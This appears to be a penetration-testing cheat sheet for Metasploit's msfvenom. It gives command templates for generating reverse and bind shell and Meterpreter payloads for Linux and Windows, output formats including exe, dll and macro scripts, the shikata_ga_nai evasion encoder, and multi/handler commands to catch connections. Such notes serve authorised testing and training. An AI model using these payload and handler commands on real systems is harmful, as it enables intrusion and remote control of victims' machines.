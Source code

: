 ```yaml
---
layout: default
title: MSFVenom
---
```


# MSFvenom
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## General Reverse Shell Format
```shell
msfvenom -p <payload> LHOST=<local IP> LPORT=<local port> [-f <format>] [-e <encoder>] [-b <bad chars>] [-a <arch>] [--platform <platform>]
```
- For bind shells replace `LHOST=<local IP>` with `RHOST=<remote IP>`
- `-b` bad chars follows format such as `"\x00\x0D"`
- `EXITFUNC=<exit technique>`
    - `process` use where master process restarts on exit; use with multi/handler
    - `thread` *(default)*; use where shellcode runs in sub-thread; exit results in working system
    - `seh` use where a structured exception handler (SEH) restarts the thread or process on error
    - `none`

---

## Payloads
```shell
msfvenom -l payloads
```

### Linux
```shell
linux/x64/meterpreter/bind_tcp            # Bind Meterpreter
linux/x64/meterpreter_bind_tcp            # Bind Meterpreter (stageless)
linux/x64/meterpreter/reverse_tcp         # Reverse Meterpreter
linux/x64/meterpreter_reverse_tcp         # Reverse Meterpreter (stageless)

linux/x64/shell/bind_tcp                  # Bind shell
linux/x64/shell/reverse_tcp               # Reverse shell
```
- `x86` also available

### Windows
```shell
windows/x64/meterpreter/reverse_tcp       # Reverse Meterpreter
windows/x64/meterpreter_reverse_tcp       # Reverse Meterpreter (stageless)
windows/x64/meterpreter/bind_tcp          # Bind Meterpreter
windows/x64/meterpreter_bind_tcp          # Bind Meterpreter (stageless)

windows/x64/shell/reverse_tcp             # Reverse shell
windows/x64/shell_reverse_tcp             # Reverse shell (stageless)
windows/x64/shell/bind_tcp                # Bind shell
windows/x64/shell_bind_tcp                # Bind shell (stageless)

windows/x64/powershell_bind_tcp           # Bind PowerShell (stageless)
windows/x64/powershell_reverse_tcp        # Reverse PowerShell (stageless)

windows/x64/exec                          # Execute command; use CMD=<cmd>
```
- Remove `/x64` for x86

---

## Formats
```shell
msfvenom -l formats
```
### Executable
```shell
asp, aspx, dll, elf, exe, jar, jsp, msi, psh, vba, vbs, war
```

### Transform
```shell
bash, c, csharp, dword, hex, java, js_be, js_le, perl, powershell, python, raw, ruby, vbapplication, vbscript
```

---

## Encoders
```shell
msfvenom -l encoders
```
```shell
x86/shikata_ga_nai                        # Polymorphic XOR Additive Feedback Encoder
```
- `-i` for number of iterations

---

## Metasploit Handler
```shell
use exploit/multi/handler
set PAYLOAD <payload>
set RHOST <remote IP>
set LHOST <local IP>
set LPORT <local port>
run
```